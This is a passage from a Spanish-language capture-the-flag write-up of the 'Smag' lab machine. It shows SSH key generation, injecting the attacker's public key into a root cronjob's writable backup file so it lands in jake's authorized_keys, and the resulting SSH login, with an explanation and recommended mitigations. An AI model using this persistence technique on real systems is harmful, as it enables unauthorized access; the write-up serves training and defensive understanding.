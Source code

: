 #### Generación de clave SSH

En mi máquina atacante generé un par de claves RSA para poder conectarme vía SSH sin contraseña:

```bash                             
┌──(zikuta㉿zikuta)-[~/Desktop/smag]
└─$ ssh-keygen -t rsa -b 4096 -f mykey
```

Esto produjo los archivos:

- `mykey` → clave privada.
- `mykey.pub` → clave pública.

### Inyección de clave púbica en el backup

Ya dentro de la máquina víctima con `www-data`, sobrescribí el archivo usado por el cronjob con mi clave pública:

```bash
www-data@smag:/var/www/development.smag.thm$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDBMzWZrmrKnZUssefkNzd41sWf51cgcFyynkNGoou5bKTR562Jx6eXAv+RzD2XOV8s6I0CNxE4sHAsPmp3a9MtL52jWcdlz+4IQhEj5DqktVt/t0LL6f3MSAZhpMdwBIBN3lzr7mH4Y1uGaM5I/Yec2/ga3cu/c/f61JeZeQq7zVYQ+0fxJTmPOza4NOYyYJIDErcMKKgIgUXc5XfwTaNuKg851t2bA6Pum/CTv3kut4Mu9D6GcuzImDdl8nciCB6TRte5CJciRmq7x6IxN96qPx8sya5Iqk6pGB8iWtQ8RPIF4wQnhxUvlK2ZFMFakVz8isqjNOw4UpwpxVN+z43qRIR63NMgNrjWkABlrFuC2EZkoLtA44jmeBH4Xk4R+uX5wgn3hCw== zikuta@zikuta" > /opt/.backups/jake_id_rsa.pub.backup
```

Cuando el cronjob corrió (cada minuto), el contenido de ese backup pasó a ser el `authorized_keys` de **jake**. En segundos, ya era posible autenticarse como **jake** usando **mi clave privada**:

**Por qué funciona**

- El **cron** corre como **root**, por lo que ignora permisos intermedios.
- Si el archivo de **origen** es **escribible** por un atacante, la tarea privilegiada **propaga** esa modificación a un archivo crítico (`authorized_keys`) dentro del `$HOME` del usuario objetivo.
- Efecto neto: **confianza transferida** desde root hacia el contenido que yo controlo, habilitando **acceso persistente** como el usuario **jake**.


**Mitigación recomendada:**

- El directorio `/opt/.backups/` y sus archivos deben ser **propiedad de root** y **no escribibles** por otros (modo `0644` como máximo, y directorio `0755` o más restrictivo).
- Usar `install` o `cp --preserve=mode,ownership` y **verificar propietarios/permisos** antes de sustituir `authorized_keys`.
- Idealmente, que el cronjob **no lea archivos ubicados en rutas donde “www-data” u otros usuarios puedan escribir**

### Escalada de privilegios II — de `jake` a **root** con `sudo apt-get`

Tras esperar unos segundos, intenté conectarme como el usuario `jake` usando mi clave privada:


```bash
(zikuta㉿zikuta)-[~/Desktop/smag]
└─$ ssh -i mykey jake@10.201.67.177

The authenticity of host '10.201.67.177 (10.201.67.177)' can't be established.
ED25519 key fingerprint is SHA256:N0hcdtAhlytMwu8PGLVD+c0ZKcV7TMNWnOr0wVw0Wp8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:67: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.201.67.177' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```